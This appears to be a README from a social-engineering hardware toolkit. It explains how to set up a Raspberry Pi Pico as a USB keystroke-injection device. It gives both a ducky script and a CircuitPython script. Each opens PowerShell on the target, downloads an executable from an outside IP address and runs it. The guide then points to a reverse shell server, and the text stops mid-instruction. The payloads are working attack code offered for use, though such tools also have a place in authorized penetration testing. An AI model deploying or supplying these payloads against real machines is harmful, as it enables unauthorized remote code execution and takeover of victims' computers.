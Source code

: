# Requirements 

- Raspberry Pi Pico
- Micro usb to usb A adapter
- (optional) [Micro usb to usb A dongle](https://thepihut.com/products/pico-dongle-lite)
- (optional) Bread Board
- (optional) Jumper Wires

# Setup

- To setup the tool connect the pin 1 (GP0) to pin 3 (GND) this will stop pico from injecting the payloads in the current machine
- Download the .uf2 for ur microcontroller
    - [Raspberry Pi pico](https://circuitpython.org/board/raspberry_pi_pico/)
    - [Raspberry Pi pico W](https://circuitpython.org/board/raspberry_pi_pico_w/)
    - [Raspberry Pi pico 2](https://circuitpython.org/board/raspberry_pi_pico2/)
    - [Raspberry Pi pico 2W](https://circuitpython.org/board/raspberry_pi_pico2_w/)
- Plug the pico into the computer, holding the BOOTSEL button. A new drive called "RPI-RP2" should appear.
- Copy the .uf2 into the drive, this should reboot the device and reconnect as CIRCUITPY
- Download [adafruit-circuitpython-bundle-9.x-mpy-YYYYMMDD.zip](https://github.com/adafruit/Adafruit_CircuitPython_Bundle/releases/)
- Extract the downloaded ZIP file, then navigate to the lib folder. Locate the following specific folders and files, and copy them to the lib folder on your Raspberry Pi Pico
    - adafruit_hid
    - adafruit_debouncer.mpy
    - adafruit_ticks.mpy
    - asyncio
    - adafruit_wsgi
- clone the [pico-ducky](https://github.com/dbisu/pico-ducky) repo and copy the following files to the root of the device
    - boot.py
    - duckyinpython.py
    - code.py
- Finally create a file called payload.dd and write the a [ducky script](https://github.com/hak5/usbrubberducky-payloads)
```
DELAY 5000
GUI R
DELAY 500
STRING powershell
ENTER
DELAY 1000
STRING Invoke-WebRequest -Uri http://192.168.1.140:3232/4ac5d816227cbfba9580a510af5272e2 -OutFile test.exe; Start-Process .\test.exe
```
- In case you dont want to use ducky script its possible to run python as well by editing the code.py file which will run on boot
```
import time
import usb_hid
from adafruit_hid.keyboard import Keyboard
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS
from adafruit_hid.keycode import Keycode

# Create a keyboard object
keyboard = Keyboard(usb_hid.devices)
layout = KeyboardLayoutUS(keyboard)

time.sleep(5)  # Wait for 5 seconds after the Pico is plugged in

# Open the Run dialog by pressing Windows key + R
keyboard.press(Keycode.WINDOWS, Keycode.R)  # Windows + R
keyboard.release_all()

time.sleep(0.5)  # Short delay to ensure the Run dialog opens

# open powershell
layout.write("powershell")
keyboard.press(Keycode.ENTER)
keyboard.release_all()

time.sleep(1)  # Wait for Notepad to open

# Now type the message in Notepad
layout.write("Invoke-WebRequest -Uri http://192.168.1.140:3232/4ac5d816227cbfba9580a510af5272e2 -OutFile test.exe; Start-Process .\\test.exe")
keyboard.release_all()
```

- Setup the [Reverse Shell Server](https://github.com/tbsauce/social-engineering-hardware-toolkit/blob/main/server/reverseshell.md)

- create a link on the server and run the following script
